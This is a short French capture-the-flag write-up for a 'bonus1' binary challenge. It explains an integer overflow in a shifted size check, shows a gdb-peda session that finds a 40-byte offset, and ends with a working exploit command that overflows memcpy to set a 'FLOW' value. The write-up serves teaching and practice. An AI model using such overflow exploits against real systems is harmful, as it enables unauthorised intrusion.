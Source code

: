 - On voit que dans le code les bit sont decaler de deux pour calculer la taille
- Le premier bit d'un int sert a savoir si il est negatif ou positif
- donc il suffit d'avoir un a  deux bit de la fin pour avoir un chiffre postif plus grand
<pre>
[alarmv@alarm Ressources]$ gdb ./bonus1 
gdb-peda$ pattern create 75
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ disass main
Dump of assembler code for function main:
   <strong>0x08048473</strong> <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
gdb-peda$ b *0x08048478
Breakpoint 1 at 0x8048478
gdb-peda$ r -2147483600 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA'
gdb-peda$ x $esp+0x3c
<strong>0xffffd54c:     "AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAA"</strong>
gdb-peda$ pattern offset AA0AAFA
AA0AAFA found at offset: <strong>40</strong>
</pre>
- Il faut donc ecrire 44 caractere dans memcpy se qui fait **101100** en binaire
- Avec `<< 2` il faut que le int soit egale a **10000000000000000000000000001011** se qui fait -2147483637
- Donc on peut executé la commande ci contre
```
./bonus1 -2147483637 $(python -c "print('A' * 40 +  '\x46\x4c\x4f\x57')")
```
